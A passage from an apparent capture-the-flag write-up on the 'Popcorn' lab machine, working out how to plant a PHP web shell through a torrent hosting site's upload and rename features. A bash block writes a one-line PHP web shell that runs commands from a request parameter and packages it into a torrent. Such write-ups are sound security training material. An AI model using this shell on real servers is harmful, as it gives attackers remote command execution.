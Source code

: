 However, uploading this returns the following:

![web10](./popcorn/web10.png)

Trying to look online for the PHP source code does not work:

- https://web.archive.org/web/20070702194234/http://www.myanmartorrents.com/forum/downloads.php?cat=1
- https://unix.oppserver.net/bt/indexer/t-xore/Torrent%20Hoster%20V2_0%20-%20Filesoup.htm

Maybe the trick is to upload a torrent file and then then use the `/rename/index.php` tool to rename the file to a PHP shell? Make a torrent and upload it:

```bash
sudo apt-get install ctorrent
mkdir bubba
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba/bubba.php
ctorrent -t -u "http://bubba:6969/announce" -s bubba.torrent bubba
```

But uploading this torrent does not provide a clear link to where it was uploaded on the target? However, after uploading the torrent and viewing it to look for links, there seems a way to upload an image:

![web11](./popcorn/web11.png)
